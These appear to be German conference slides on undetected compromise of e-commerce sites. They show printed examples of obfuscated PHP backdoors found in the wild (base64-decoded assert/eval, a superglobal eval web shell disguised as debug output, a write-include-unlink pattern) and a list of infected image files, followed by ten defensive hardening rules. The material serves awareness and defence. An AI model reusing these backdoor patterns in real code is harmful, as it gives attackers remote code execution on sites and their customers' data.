

Deine Webseite ist gehackt und du hast es nicht gemerkt
Thomas Lohner, Code.Talks 2016
Ein ganz normaler Shop-Umzug, bis...
... im Access-Log erschien:
GET /default-page/how-to-get-more-instagram-followers/
HTTP/1.1" 200 7481 "-" " Mozilla/5.0 (compatible;
Googlebot/2.1; +http://www.google.com/bot.html)
Ich so "Äh Leute, sagt euch diese URL irgendwas?"
Kunde so "WTF??!!"
Ich so "Ok, dann lass uns mal ein Backup einspielen"
Kunde so "Ähm, naja, also... ^^"
Das älteste Backup war 3 Monate alt und auch schon infiziert.
Der Neubau des
Magento- Setups mit allen Extensions hat
30 PT gekostet.
Einzelschicksal?
Oder gibt es eine
Dunkelziffer von gehackten Webseiten?
Beispiele PHP Remote Code Execution
$a = "b".""."as"."e"."".""."6"."4"."_".
"de".""."c"."o". ""."d"."e";
assert($a('CmV2YWwoIlx4NjVceDc2XHg2MVx
4NkNceDI4XHg2N1x4N0FceDY5XHg2RVx4NjZce
DZDXHg2MVx4NzRceDY1XHgyOFx4NjJceDYxXHg
3M1x4NjVceDM2XHgzNFx4NUZceDY0XHg2NVx4N
25OMUl5U...'));
$wcoa15="adet6pc_o4bs" ;
$qbj4=strtolower($wcoa15[10].$wcoa15[0]
.$wcoa15[11].$wcoa15[2].$wcoa15[4] ...);
$vuid2 =strtoupper($wcoa15[7].$wcoa15[5].
$wcoa15[8]. $wcoa15[11]. $wcoa15[3] ) ;
if ( isset(${$vuid2 } ['n23f412']))
{ eval ($qbj4( ${ $vuid2} ['n23f412' ] ) ) ;
if ( $_REQUEST["array"] )
{
@assert(base64_decode($_REQUEST["array"]));
//debug message
echo "Array sort completed";
exit();
}
eval() und assert() sind böse
Oder ihr findet
fwrite($f, $_POST['data']);
include($f);
unlink($f);
Infizierte Bilder
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(1).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(13).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj_php(3).gif
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(5).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(4).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(10).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj.jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(2).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj_php;(6).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj(6).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj_php;(4).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj_php;(1).jpg
* Win.Trojan.Hide-1 in /html/oxid/out/fck_pictures/tj_php;(2).jpg
10 Rules how not
to fuck up
#1 Malware-Scanner
- github.com/nbs-system/php-malware-finder
- github.com/planet-work/php-malware-scanner/
- Alternativ: Virenscanner
#2 Web Application Firewall
- mod_security
- nginx-naxsi
#3 FTP ist böse
- Häufigste Einbruchstelle ever
- unverschlüsselte Passwortübertragung
- Fix: SFTP (via ssh)
#4 All-In-One Server-Schleuder
- billiger: Ja
- geiler: Nein!
#5 Updates
- Server-Updates: apticron (Ubuntu)
- PHP/Java/Python/Ruby-Updates
- Add-Ons: Wordpress, PHP MyAdmin usw.
#6 Information-Leaks
curl -I www.meineseite.de
HTTP/1.1 200 OK
Date: Wed, 01 Jun 2016 13:49:52 GMT
Server: Apache
X-Powered-By: PHP/5.3.3
Set-Cookie: language=0; path=/; httponly
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
#7 "Ich hab das schnell mal gemacht".php
- SQL-Dumps
- CSV-Exporte
- Cronjobs
- Shellscripte
- Umsatz-Satistiken
#8 Zugriffsrechte
- chmod 777 Pfui!
- Schreibzugriff nur wo nötig
- Zugriff per htaccess verbieten
#9 Deployment / git?
- "sauberes" DocRoot
- keine Live-Hotfixes
- Rollback
#10 Uffbasse!
- Logging
- Monitoring (z.B. Port 6667 / irc)
Wir verletzen unsere Aufsichtspflicht, wenn wir unsere Websites nicht updaten und sicher halten!
With websites comes responsibility. With ecommerce websites comes great responsibility.
ScaleCommerce

Thomas Lohner
ScaleCommerce
facebook.com/ThomasLohner
tl@scale.sc